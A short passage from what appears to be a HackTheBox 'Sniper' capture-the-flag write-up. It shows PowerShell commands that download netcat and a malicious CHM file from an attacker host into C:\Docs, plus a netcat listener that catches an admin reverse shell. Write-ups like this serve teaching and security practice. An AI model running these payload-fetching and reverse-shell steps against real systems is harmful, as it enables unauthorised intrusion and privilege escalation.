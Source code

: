 ```powershell
iwr "http://10.10.14.63/nc64.exe" -OutFile nc64.exe
iwr "http://10.10.14.63/doc.chm" -OutFile doc.chm
copy doc.chm C:\\Docs
```


I start my local listener with:

```bash
rlwrap nc -lnvp 9001
```

And after a few seconds I get an admin shell:

![root-36](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/root-36.png)
